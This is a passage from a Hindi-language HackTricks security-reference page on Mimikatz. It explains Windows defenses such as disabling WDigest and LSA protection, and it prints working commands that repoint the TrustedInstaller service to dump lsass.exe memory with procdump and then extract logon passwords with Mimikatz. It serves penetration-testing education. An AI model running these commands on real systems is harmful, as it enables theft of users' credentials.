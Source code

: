 # Mimikatz

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

**मोबाइल सुरक्षा** में अपनी विशेषज्ञता को 8kSec अकादमी के साथ गहरा करें। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}

**यह पृष्ठ [adsecurity.org](https://adsecurity.org/?page_id=1821) से आधारित है**। आगे की जानकारी के लिए मूल पृष्ठ देखें!

## LM और स्पष्ट-टेक्स्ट मेमोरी में

Windows 8.1 और Windows Server 2012 R2 से आगे, क्रेडेंशियल चोरी के खिलाफ सुरक्षा के लिए महत्वपूर्ण उपाय लागू किए गए हैं:

- **LM हैश और स्पष्ट-टेक्स्ट पासवर्ड** अब मेमोरी में संग्रहीत नहीं किए जाते हैं ताकि सुरक्षा बढ़ सके। एक विशिष्ट रजिस्ट्री सेटिंग, _HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ को `0` के DWORD मान के साथ कॉन्फ़िगर किया जाना चाहिए ताकि डाइजेस्ट प्रमाणीकरण को निष्क्रिय किया जा सके, यह सुनिश्चित करते हुए कि "स्पष्ट-टेक्स्ट" पासवर्ड LSASS में कैश नहीं किए जाते हैं।

- **LSA सुरक्षा** को स्थानीय सुरक्षा प्राधिकरण (LSA) प्रक्रिया को अनधिकृत मेमोरी पढ़ने और कोड इंजेक्शन से बचाने के लिए पेश किया गया है। यह LSASS को एक संरक्षित प्रक्रिया के रूप में चिह्नित करके प्राप्त किया जाता है। LSA सुरक्षा को सक्रिय करने में शामिल हैं:
1. _HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ पर रजिस्ट्री को संशोधित करना और `RunAsPPL` को `dword:00000001` पर सेट करना।
2. एक समूह नीति वस्तु (GPO) को लागू करना जो प्रबंधित उपकरणों में इस रजिस्ट्री परिवर्तन को लागू करता है।

इन सुरक्षा उपायों के बावजूद, Mimikatz जैसे उपकरण विशिष्ट ड्राइवरों का उपयोग करके LSA सुरक्षा को बायपास कर सकते हैं, हालांकि ऐसे कार्यों को घटना लॉग में रिकॉर्ड किया जाने की संभावना है।

### SeDebugPrivilege हटाने का प्रतिकार

प्रशासकों के पास आमतौर पर SeDebugPrivilege होता है, जो उन्हें कार्यक्रमों को डिबग करने की अनुमति देता है। इस विशेषाधिकार को अनधिकृत मेमोरी डंप को रोकने के लिए प्रतिबंधित किया जा सकता है, जो हमलावरों द्वारा मेमोरी से क्रेडेंशियल निकालने के लिए एक सामान्य तकनीक है। हालाँकि, इस विशेषाधिकार को हटाने के बावजूद, TrustedInstaller खाता अभी भी एक अनुकूलित सेवा कॉन्फ़िगरेशन का उपयोग करके मेमोरी डंप कर सकता है:
```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```
यह `lsass.exe` मेमोरी को एक फ़ाइल में डंप करने की अनुमति देता है, जिसे फिर किसी अन्य सिस्टम पर क्रेडेंशियल्स निकालने के लिए विश्लेषण किया जा सकता है:
```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```
## Mimikatz विकल्प
